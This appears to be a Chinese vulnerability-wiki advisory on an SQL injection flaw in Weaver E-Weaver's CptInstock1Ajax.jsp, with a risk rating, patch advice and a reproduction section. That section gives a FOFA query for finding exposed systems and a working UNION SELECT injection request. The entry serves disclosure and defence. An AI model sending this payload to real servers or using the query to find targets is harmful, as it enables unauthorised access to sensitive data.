


# 泛微-E-Weaver CptInstock1Ajax 存在SQL注入漏洞

# 漏洞描述

由于泛微E-Weaver未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。远程未授权攻击者可利用此漏洞获取敏感信息，进一步利用可能获取目标系统权限等。

# 影响版本

泛微-E-Weaver

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="泛微-E-Weaver"

POC/EXP：

GET /cpt/capital/CptInstock1Ajax.jsp?id=-1+union+all+select+123456,1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

# 修复方案

临时缓解方案

限制访问来源地址，如非必要，不要将系统开放在互联网上。

升级修复方案

目前官方已发布安全补丁，建议受影响用户尽快升级至安全版本

https://www.weaver.com.cn/

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
